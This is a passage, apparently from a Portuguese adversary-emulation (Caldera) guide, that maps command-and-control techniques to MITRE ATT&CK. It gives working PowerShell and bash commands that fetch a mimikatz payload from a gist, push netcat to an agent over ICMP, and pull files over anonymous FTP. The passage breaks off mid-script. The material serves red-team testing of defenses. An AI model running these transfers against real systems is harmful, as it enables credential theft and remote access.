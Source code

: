     iwr -useb https://gist.githubusercontent.com/hardw00t/302790bea71d8ff42aeb3d1e102007d1/raw/b78d3aee5d79a2db20f55e90e11100ed6293c18e/mimikatz.js -OutFile $env:TMP\caldera\downloads\mimikatzjs_iwr.exe
    ```

    - Invoke-IcmpDownload [[`Command-and-control:T1095:Non-Application Layer Protocol`](https://attack.mitre.org/techniques/T1095/)]
      - Executar no servidor: 
        ```bash
        # https://github.com/icyguider/ICMP-TransferTools
        bash> cd ~/Downloads/tools/ICMP-TransferTools && while true;do sudo ./ICMP-SendFile.py 10.10.64.230 IP_DO_AGENT files/nc.exe;done
        ```

      - Executar no cliente: 
        ```powershell
        if (Test-Path $env:TMP\caldera\downloads\Invoke-IcmpDownload_curl.ps1) { 
          . $env:TMP\caldera\downloads\Invoke-IcmpDownload_curl.ps1; Invoke-IcmpDownload 10.10.64.230 $env:TMP\caldera\downloads\nc_curl.exe;
        }
        if (Test-Path $env:TMP\caldera\downloads\Invoke-IcmpDownload_certutil.ps1) { 
          . $env:TMP\caldera\downloads\Invoke-IcmpDownload_certutil.ps1; Invoke-IcmpDownload 10.10.64.230 $env:TMP\caldera\downloads\nc_certutil.exe;
        }
        if (Test-Path $env:TMP\caldera\downloads\Invoke-IcmpDownload_bitsadmin.ps1) { 
          . $env:TMP\caldera\downloads\Invoke-IcmpDownload_bitsadmin.ps1; Invoke-IcmpDownload 10.10.64.230 $env:TMP\caldera\downloads\nc_bitsadmin.exe;
        }
        if (Test-Path $env:TMP\caldera\downloads\Invoke-IcmpDownload_iwr.ps1) { 
          . $env:TMP\caldera\downloads\Invoke-IcmpDownload_iwr.ps1; Invoke-IcmpDownload 10.10.64.230 $env:TMP\caldera\downloads\nc_iwr.exe;
        }
        ```

    - FTP [[`Command-and-control:T1071.002:File Transfer Protocols`](https://attack.mitre.org/techniques/T1071/002/)]
      - Executar no servidor: 
        ```bash
        cd ~/Downloads/tools/ICMP-TransferTools/files && python3 -m pyftpdlib -p 8080
        ```
      - Executar no cliente: 
        ```powershell
        $ftpServer = "ftp://10.10.64.230:8080/";
        $user = "anonymous";
        $password = "anonymous";
        $remotePath = "file_ftp.txt";
        $localPath  = "$env:TMP\caldera\downloads\file_ftp.txt";

        $ftpRequest = [System.Net.FtpWebRequest]::Create("$ftpServer$remotePath");
        $ftpRequest.Credentials = New-Object System.Net.NetworkCredential($user,$password);
        $ftpRequest.Method = [System.Net.WebRequestMethods+Ftp]::DownloadFile;
        $ftpRequest.UseBinary = $true;
        $ftpRequest.KeepAlive = $false;
        $ftpRequest.Timeout = 60000;

